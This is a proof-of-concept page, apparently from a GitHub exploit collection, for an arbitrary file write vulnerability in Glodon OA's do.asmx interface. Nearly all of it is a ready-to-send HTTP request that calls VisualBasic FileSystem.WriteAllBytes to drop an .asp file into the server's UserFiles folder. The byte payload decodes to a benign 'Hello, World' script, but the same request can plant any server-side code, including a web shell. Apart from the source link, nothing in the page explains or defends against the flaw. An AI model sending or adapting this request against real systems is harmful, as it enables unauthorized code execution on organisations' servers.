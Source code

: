# gld_do_fileupload

```
POST /m/mobileAction.ashx/do.asmx?controller=Microsoft.VisualBasic.FileIO.FileSystem%2c%20Microsoft.VisualBasic%2c%20Version%3d8.0.0.0%2c%20Culture%3dneutral%2c%20PublicKeyToken%3db03f5f7f11d50a3a&action=WriteAllBytes HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Connection: close

["\"D:\\\\Program Files (x86)\\\\Glodon\\\\GTP\\\\data\\\\gtp-default\\\\FileStorage\\\\UserFiles\\\\1.asp\"","[60, 37, 32, 82, 101, 115, 112, 111, 110, 115, 101, 46, 87, 114, 105, 116, 101, 40, 34, 72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 34, 41, 32, 37, 62]","false"]
```
from:  https://github.com/wy876/POC/blob/main/%E5%B9%BF%E8%81%94%E8%BE%BEOA/%E5%B9%BF%E8%81%94%E8%BE%BEOA%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3do.asmx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E.md

